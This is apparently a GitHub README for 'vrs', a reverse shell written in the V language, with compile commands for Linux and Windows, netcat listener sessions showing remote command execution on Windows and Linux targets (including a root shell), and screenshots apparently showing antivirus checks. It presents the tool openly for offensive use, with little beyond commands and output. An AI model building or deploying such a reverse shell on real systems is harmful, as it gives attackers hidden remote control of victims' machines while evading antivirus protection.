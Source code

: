 
# vrs

portable v (vlang) based reverse shell

https://vlang.io/

https://github.com/vlang/v#installing-v-from-source

**Compile**

must compile on target platform (at least for now, relatively new language)

```
root@kali:/opt/v# ./v vrs.v 
root@kali:/opt/v# file vrs
vrs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6aeb8728d17200150a78ea64d2db7c0accdddb2f, for GNU/Linux 3.2.0, not stripped
```

```
C:\Users\User\v>v.exe -os windows vrs.v
mingw not found, trying to build with msvc...

```

**Usage**

Windows
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.202: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.202] 50780
whoami
windev1910eval\user

systeminfo

Host Name:                 WINDEV1910EVAL
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.18362 N/A Build 18362

```

Linux
```
root@kali:/opt/v# nc -lvp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 37634
id
uid=0(root) gid=0(root) groups=0(root)

whoami
root
```

**AV**

<img width="1316" alt="Screenshot 2019-11-29 at 11 26 07" src="https://user-images.githubusercontent.com/56988989/69866129-2a789d80-129b-11ea-9fbf-a0398c21a83b.png">

<img width="534" alt="Screenshot 2019-11-29 at 11 23 17" src="https://user-images.githubusercontent.com/56988989/69866128-2a789d80-129b-11ea-8386-781e646f87eb.png">

Enjoy~


